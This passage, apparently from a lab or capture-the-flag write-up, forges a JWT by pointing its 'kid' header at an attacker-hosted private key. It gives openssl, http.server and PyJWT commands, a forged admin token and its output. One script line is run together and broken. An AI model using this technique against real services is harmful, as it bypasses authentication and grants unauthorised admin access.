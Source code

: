 The fact is: We cannot modify the issued token without signing it again with the key available in the server, but, once the token has a field pointing to the path to the key to which it was signed, we could get a chance to recreate this token, signing it with our own RSA key and **making it available to the backend** during our credential validation, but we can only be sure testing :stuck_out_tongue_winking_eye:.

## Initial access

Once we need to create a token, searching for the easiest way to do it I have found a python library called [PyJWT](https://pyjwt.readthedocs.io/en/stable/) that seemed quite easy to be used. In the initial docs page, we have a sample code signing a token but we need to dig further in their documentation to find a way to add the `kid` header and create the cert.

Achieved the desired outcome by running the following steps:

- Created the RSA key using the command line below. We'll have as output the content of the public key and, in the specified file, the private key.

```bash
openssl req -nodes -new -x509 -keyout privKey.key -noout -pubkey
```

- Published the private key using a simple HTTP Server, using the same port web server was using in the observed token.

```bash
python3 -m http.server 7070
```

- After creating the key, wrote a script as content below using the obtained values of public and private keys and signed the payload. This script uses examples located at [Usage Examples](https://pyjwt.readthedocs.io/en/stable/usage.html) in the official module documentation.

  - Necessary to install the module using the command `pip3 install pyjwt`. In case `jwt` module is already installed, necessary to remove it first, otherwise, the script will fail.

```python
#!/usr/bin/python3
import jwtprivate_key = b"""-----BEGIN PRIVATE KEY-----
MIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDT/8rR3ZkWJOJN
[...]
XDmj7j8p7kdd2ZM1MYTO6A0=
-----END PRIVATE KEY-----"""
payload = {
    "username": "jdoe",
    "email": "jdoe@dummy.com",
    "admin_cap": 1
}
header = {"kid": "http://10.10.10.10:7070/privKey.key"}
encoded = jwt.encode(payload, private_key, algorithm="RS256",headers=header)
print(encoded)
```

  Sample output is pasted below:

```bash
$ python3 generate-jwt.py
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMTY6NzA3MC9wcml2S2V5LmtleSJ9.eyJ1c2VybmFtZSI6Impkb2UiLCJlbWFpbCI6Impkb2VAZHVtbXkuY29tIiwiYWRtaW5fY2FwIjoxfQ.WMokYjjMMECoF2UWM2fcMVcR99X34dHXwuj8nXqBlQWOnwC1NdBoO6PD-ZHjAZ5p969Jbf4XnRKZedAAokxvIgG2ymYNV1F8CcDzDfuHlMlk_CiYGvimoJWgvA3S-24KDql2bRrvJgoPbKKjqJ5Ir7mWZF1USGSwsttc9Ff1qniFAWTJ8CXkTLtfR498_rY_uIJfBdvqTbi3C9fWJcnSwjCGROkEGxCYve4cf5rjFvm_D_G5-S8oWkXICYAFp5lMQ288E0qGQp04nD16H1v2YzOROolNDeqMVB2uaI060xjKEA8mv6taa095q7rEqzpzXSj21Uq2-xcZonk0LI1-yg
```
